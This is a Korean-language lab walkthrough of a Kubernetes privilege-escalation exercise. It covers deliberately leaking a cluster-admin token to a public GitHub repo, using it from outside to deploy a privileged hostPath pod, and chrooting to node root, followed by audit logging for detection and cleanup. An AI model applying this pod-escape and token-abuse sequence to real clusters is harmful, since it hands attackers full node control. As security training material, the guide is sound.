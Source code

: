 # Kubernetes Privilege-Escalation 시나리오&#x20;

> **목표** : 유출된 ServiceAccount 토큰으로 API 침투 → `privileged` 컨테이너 배포 → 노드 **root** 권한 획득

---

## 0. 실습 클러스터

| 구성            | 수량                   |
| ------------- | -------------------- |
| Control-Plane | 1 대 (k8s-master)     |
| Worker        | 3 대 (k8s-work1 \~ 3) |
| Kubernetes    | v1.33.x (최신)         |

---

## 1. 사전 준비 (마스터 노드)

### 1‑1 ServiceAccount & 토큰 발급 (24 h)

```bash
kubectl -n kube-system create sa demo-leak
kubectl create clusterrolebinding demo-leak \
  --clusterrole=cluster-admin \
  --serviceaccount=kube-system:demo-leak

kubectl -n kube-system create token demo-leak --duration=24h \
  > /tmp/leak.token
```

### 1‑2 API 포트 오픈 (6443/TCP)

| 항목            | 값                     |
| ------------- | --------------------- |
| Name          | `allow-demo-6443`     |
| Direction     | Ingress               |
| Source IP     | `<YOUR_PUBLIC_IP>/32` |
| Protocol/Port | `tcp:6443`            |

### 1‑3 토큰 내용 확인

```bash
cat /tmp/leak.token
```

---

## 2. 토큰 유출 시뮬레이션 (GitHub Public Repo)

```bash
mkdir ~/demo-leak && cd ~/demo-leak
echo "## 토큰 유출 테스트" > README.md
cat /tmp/leak.token >> README.md
git init
git remote add origin git@github.com:<USER>/demo-leak.git
git add README.md && git commit -m "leak kube token"
git push -u origin main
```

---

## 3. 공격 단계 (외부 PC)

```bash
# kubectl 설치 (macOS 예시)
brew install kubectl

# 환경변수
TOKEN="$(curl -s https://raw.githubusercontent.com/<USER>/demo-leak/main/README.md | tail -1)"
API="https://34.64.60.22:6443"

# 인증 성공 테스트
kubectl --token "$TOKEN" --server "$API" --insecure-skip-tls-verify get ns
```

### 3‑1 privileged Pod YAML 작성

`privileged-shell.yaml`

```yaml
apiVersion: v1
kind: Namespace
metadata:
  name: privileged-poc
---
apiVersion: v1
kind: Pod
metadata:
  name: privileged-shell
  namespace: privileged-poc
spec:
  hostPID: true
  hostNetwork: true
  containers:
  - name: attacker-shell
    image: alpine:latest
    securityContext:
      privileged: true
    command: ["/bin/sh", "-c", "sleep 3600"]
    volumeMounts:
    - name: host-root
      mountPath: /host
  volumes:
  - name: host-root
    hostPath:
      path: /
```

**배포 & 쉘 획득**

```bash
kubectl --token "$TOKEN" --server "$API" \
  --insecure-skip-tls-verify apply -f privileged-shell.yaml

kubectl --token "$TOKEN" --server "$API" \
  --insecure-skip-tls-verify -n privileged-poc exec -it privileged-shell -- sh

# 노드 root 전환
chroot /host /bin/bash
whoami   # → root
```

---

## 4. 감사 로그 활성화 — 탐지용

### 4‑1 정책 파일 `/etc/kubernetes/audit-policy.yaml`

```yaml
apiVersion: audit.k8s.io/v1
kind: Policy
rules:
  - level: RequestResponse
```

### 4‑2 kube‑apiserver 매니페스트 수정 `/etc/kubernetes/manifests/kube-apiserver.yaml`

```yaml
# command 플래그
- --audit-policy-file=/etc/kubernetes/audit-policy.yaml
- --audit-log-path=/var/log/kubernetes/audit.log
- --audit-log-maxage=30
- --audit-log-maxbackup=10
- --audit-log-maxsize=100

# volumeMounts
- name: audit-policy
  mountPath: /etc/kubernetes/audit-policy.yaml
  readOnly: true
- name: audit-logs
  mountPath: /var/log/kubernetes

# volumes
- name: audit-policy
  hostPath:
    path: /etc/kubernetes/audit-policy.yaml
    type: File
- name: audit-logs
  hostPath:
    path: /var/log/kubernetes
    type: DirectoryOrCreate
```

### 4‑3 로그 확인

```bash
tail -f /var/log/kubernetes/audit.log
```

---

## 5. Vector 로그 수집 - 진행중

| 대상          | 경로                              |
| ----------- | ------------------------------- |
| Audit       | `/var/log/kubernetes/audit.log` |
| 컨테이너 stdout | `/var/log/containers/*.log`     |

`vector.toml`

```toml
작성중
```

---

## 6. 정리 (Cleanup)

```bash
# 외부 PC
kubectl delete -f privileged-shell.yaml
kubectl delete ns privileged-poc

# 마스터 노드
kubectl -n kube-system delete sa demo-leak
kubectl delete clusterrolebinding demo-leak

# GCP 방화벽
gcloud compute firewall-rules delete allow-demo-6443
```

